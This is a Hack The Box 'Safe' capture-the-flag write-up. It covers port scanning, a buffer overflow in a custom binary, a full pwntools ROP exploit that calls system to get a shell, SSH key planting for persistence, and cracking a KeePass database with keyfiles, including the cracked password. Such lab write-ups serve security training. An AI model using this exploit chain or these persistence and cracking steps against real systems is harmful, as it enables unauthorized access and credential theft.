


# Hack The Box - Safe


### <u>Port Scan</u>

We are starting with a **nmap** to scan for open ports with the following command:

```
~$ nmap -sC -sV -p- 10.10.10.147
```




The server has 3 open ports:

1. Apache Web Server -> 80

2. OpenSSH Server -> 22

3. 1337 -> Custom application

   

### <u>Web Enumeration</u>

When we enter in the web application we see the default Debian Apache webpage but in the source code there is a comment with a hint that indicates that we can download the application that is running on port 1337 if we visit ***/myapp***.


### <u>Custom Application Analysis: myapp</u>

After downloading the application running on port 1337, we will analyze it to find any vulnerabilities that could compromise the server.

**Myapp** is a 64 bits application, dynamically linked and with no symbols stripped.


Seeing that the application returns the same string that we sent the first thing we could think is that the application is vulnerable to format string, but resulted not be vulnerable to format string vulnerability because after sending **%x** the application did not leak any memory address.


The next step was to check if the application is vulnerable to buffer overflow sending a long payload.


After check that the application is vulnerable to buffer overflow we are going to check if the binary has been compiled with any protection. **Myapp** has NX protection enabled so we need to do a ROP chain in oder to exploit this program because the stack is not executable.


### <u>Exploit Development</u>

1. **Calculate offset**:
   We need to create a pattern in order to calculate how many bytes we need to send to overwrite the **rip** register.

   

   

   We can control the program flow if we send 120 bytes.

   

   

2. **Generate ROP chain:**

   We are going to create a ROP chain that writes at **.bss** section a string and then we are going to call system function with that string in order to execute commands.

   First we will search a "pop rdi; ret" gadget.

   ```bash
   ~$ ropper -f myapp > gadgets.txt
   ~$ grep "pop rdi" gadgets.txt
   ```

   
   
   

   Then we will search in which memory position is the **.bss** section

   


   We will create the following script using **pwntools** to write in **.bss** the command we want to execute and then we will pass the memory address in which our string is stored to the function system

   ```python
   from pwn import *
   
   elf  = ELF('./myapp')
   context.terminal = ['tmux', 'sp', '-h']
   context.log_level = 'DEBUG'
   
   io= remote("10.10.10.147",1337)
   
   payload = flat(
               'A'*120,
               0x40120b,           # 0x000000000040120b : pop rdi ; ret
               0x404058,           #.bss
               elf.sym['gets'],
   	        0x40120b,                # 0x000000000040120b : pop rdi ; ret
               0x404058,             #.bss
               elf.sym['system'],
               endianness = 'little', word_size = 64, sign = False)
   io.recvline()
   io.sendline(payload)
   io.interactive()
   
   ```

   

3. **Execute Exploit:**

   We can execute any command but the program will finish after that, to avoid that we will execute "***/bin/bash***" in order to get a shell.
   
   

   

   

### <u>Privilege Escalation</u>

We decide to write our public key at "***/home/user/.ssh/authorized_keys***" to enter by SSH.





There are some interesting files in the user home, one Keepass database and six images files.


We decided to download those files and then try to crack the Keepass database, but without success.


After researching we discovered that it is possible to use a keyfile+password in a keepass database.

We can use keepass2john to generate a hash in order to crack the keepass database.

```bash
~$ keepass2john -k IMG* MyPasswords.kdbx >> Safe_Keepass_Keyfiles.txt
```


We cracked the hash so we can access to **MyPasswords** database using IMG_547.jpg as keyfile and **bullshit** as password in order to obtain the root password.


We use the password obtained in the keepass file to become root and obtain the root flag.


